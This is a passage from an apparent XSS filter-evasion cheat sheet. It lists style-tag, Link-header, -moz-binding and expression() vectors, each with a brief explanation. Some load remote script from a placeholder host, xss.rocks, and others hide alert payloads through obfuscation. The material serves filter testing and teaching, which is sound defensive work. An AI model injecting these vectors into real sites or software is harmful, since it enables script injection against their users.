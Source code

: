 ```html
<style>
  @import 'http://xss.rocks/xss.css';
</style>
```

## Remote style sheet part 3

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

```html
<meta http-equiv="Link" content="<http://xss.rocks/xss.css>; REL=stylesheet" />
```

## Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast majority of sites:

```html
<style>
  BODY {
    -moz-binding: url('http://xss.rocks/xssmoz.xml#xss');
  }
</style>
```

## STYLE Tags with Broken-up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

```html
<style>
  @im \port'\ja\vasc\ript:alert("XSS")';
</style>
```

## STYLE Attribute using a Comment to Break-up Expression

Created by Roman Ivanov

```html
<img style="xss:expr/*XSS*/ession(alert('XSS'))" />
```

## IMG STYLE with Expression

This is really a hybrid of the above XSS vectors, but it really does show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:
